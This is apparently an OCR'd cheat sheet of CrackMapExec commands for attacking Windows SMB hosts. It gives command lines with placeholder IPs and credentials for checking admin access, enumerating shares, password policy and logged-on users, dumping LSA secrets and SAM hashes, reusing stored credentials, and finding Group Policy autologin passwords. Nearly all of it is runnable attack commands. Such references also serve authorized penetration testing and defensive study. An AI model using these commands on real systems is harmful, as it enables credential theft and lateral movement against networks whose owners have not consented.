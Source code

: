 #### Check local admin access with local account
```
cme smb <ip> -u <username> -p <password> --local-auth
cme smb <ip> -d . -u <username> -p <password>
```

#### Get the password policy
```
cme smb -d <domain> <ip> -u <username> -p <password> --pas-pol
```

#### List the shares
```
cme smb -d <domain> <ip> -u <username> -p <password> --shares
```

#### List the loggedonusers
```
cme smb -d <domain> <ip> -u <username> -p <password> --loggedon-users
```

#### Dump credentials LSA
```
cme smb -d <domain> <ip> -u <username> -p <password> --lsa
```

#### Dump credentials sam
```
cme smb -d <domain> <ip> -u <username> -p <password> --sam
```

#### Cat .cme.conf to change workspace and other configurations
```
cd .cme && cat cme.conf
```

#### Interact with cme database and see creds
```
cmedb
creds
```

#### Use credentials from cme database
```
cme smb <ip> --id 5
```

#### Use the gpp_autologin to check for auto login credentials
```
cme smb -m gpp_autologin –options
```

#### Tee the output to a log file since you want to be able to look back on the output
```
| tee -a cme.log
```
